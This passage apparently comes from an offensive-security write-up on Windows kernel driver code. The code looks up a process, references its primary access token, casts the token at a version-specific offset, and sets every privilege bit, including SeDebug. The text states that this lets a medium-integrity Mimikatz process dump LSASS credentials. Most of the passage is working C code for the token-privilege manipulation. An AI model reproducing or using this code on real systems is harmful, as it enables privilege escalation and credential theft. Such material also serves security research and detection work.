

Luckily, we don't have to do many manual calculations to find the relevant portion of process memory thanks to the [PsReferencePrimaryToken](https://docs.microsoft.com/en-us/windows-hardware/drivers/ddi/ntifs/nf-ntifs-psreferenceprimarytoken) API.  It takes a pointer to an EPROCESS structure and returns a pointer to its TOKEN structure.  It also increments the reference count on the object, so we have to remember to dereference it later with PsDereferencePrimaryToken.

```
// dt nt!_EPROCESS
PEPROCESS eProcess = NULL;
status = PsLookupProcessByProcessId((HANDLE)target->ProcessId, &eProcess);

// dt nt!_TOKEN
PACCESS_TOKEN pToken = PsReferencePrimaryToken(eProcess);

// do stuff

// dereference
PsDereferencePrimaryToken(pToken);
ObDereferenceObject(eProcess);
```


To assist with changing the values, we can cast the pointer to a custom struct.

```
PPROCESS_PRIVILEGES tokenPrivs = (PPROCESS_PRIVILEGES) ((ULONG_PTR)pToken + PROCESS_PRIVILEGE_OFFSET[windowsVersion]);
```


Where **PPROCESS_PRIVILEGES** is:

```
typedef struct _PROCESS_PRIVILEGES
{
    UCHAR Present[8];
    UCHAR Enabled[8];
    UCHAR EnabledByDefault[8];
} PROCESS_PRIVILEGES, * PPROCESS_PRIVILEGES;
```


And **PROCESS_PRIVILEGE_OFFSET** is:

```
const ULONG PROCESS_PRIVILEGE_OFFSET[] =
{
    0x00,   // placeholder
    0x00,   // placeholder
    0x00,   // placeholder
    0x00,   // placeholder
    0x00,   // placeholder
    0x40,   // REDSTONE_5
    0x00,   // placeholder
    0x00,   // placeholder
    0x00,   // placeholder
    0x00,   // placeholder
    0x00    // placeholder
};
```


Finally:

```
// yolo enable all the things
tokenPrivs->Present[0] = tokenPrivs->Enabled[0] = 0xff;
tokenPrivs->Present[1] = tokenPrivs->Enabled[1] = 0xff;
tokenPrivs->Present[2] = tokenPrivs->Enabled[2] = 0xff;
tokenPrivs->Present[3] = tokenPrivs->Enabled[3] = 0xff;
tokenPrivs->Present[4] = tokenPrivs->Enabled[4] = 0xff;
```


In this example, Mimikatz is running in medium integrity.  But because we've granted all token privileges, including SeDebug, it's able to dump LSASS.


